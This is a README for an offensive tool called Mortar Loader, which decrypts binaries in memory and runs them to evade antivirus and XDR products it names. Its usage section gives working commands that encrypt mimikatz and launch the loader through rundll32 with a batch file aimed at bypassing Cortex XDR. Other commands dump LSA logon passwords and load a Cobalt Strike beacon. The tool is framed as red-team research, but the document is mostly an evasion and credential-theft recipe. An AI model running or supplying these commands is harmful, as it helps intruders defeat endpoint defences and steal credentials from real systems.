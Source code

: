 # Mortar Loader 

red teaming evasion technique to defeat and divert detection and prevention of security products.Mortar Loader performs encryption and decryption of selected binary inside the memory streams and execute it directly with out writing any malicious indicator into the hard-drive. 
Mortar is able to bypass modern anti-virus products and advanced XDR solutions and it has been tested and confirmed bypass for the following: 

* Kaspersky
* ESET 
* Malewarebytes 
* Mcafee 
* Cortex XDR 
* Windows defender 
* Cylance

detailed research : https://0xsp.com/security%20research%20&%20development%20(SRD)/defeat-the-castle-bypass-av-advanced-xdr-solutions

CrestCon Asia 2021 talk : https://www.youtube.com/watch?v=H7EMBz7GLMk

# Usage 

## Encryptor 

```
root@kali>./encryptor -f mimikatz.exe -o bin.enc 

```

## Loader (DLL)
for bypassing Cortex XDR,add agressor.dll with bin.enc in the same folder and script the following bat file 
```
@echo off 
cmd.exe /c rundll32.exe agressor.dll,stealth
```
for normal usage you can directly execute the agressor.dll 

```
rundll32.exe agressor.dll,dec
```
## Loader (EXE)
the executable version has more options you can use, as you able to pass commands for the loaded binary

```
##Mimikatz dump LSA 
deliver.exe -d -c sekurlasa::logonpasswords -f mimikatz.enc 

## Cobalt strike beacon 
deliver.exe -d -f cobalt.enc 

```
# Compiling the Loader (windows only)
the project has been coded using FPC(Free Pascal), the compiling procedures are straightforward by downloading and installing Lazarus IDE (https://www.lazarus-ide.org/index.php?page=downloads) and navigate into file > open  -> Run -> build 


# Compiling Encryptor(Linux/BSD/Arm/MacOS//windows)
either by downloading and installing Lazarus-IDE from the official site(https://www.lazarus-ide.org/index.php?page=downloads)

```
#Debian & Ubuntu 

apt install fpc 
apt install lazarus-ide 

```
# Support the research 
if you think you have benefited from this open-source project and want more updates in the future, please mind time and efforts by making a donation
https://donorbox.org/support-0xsp






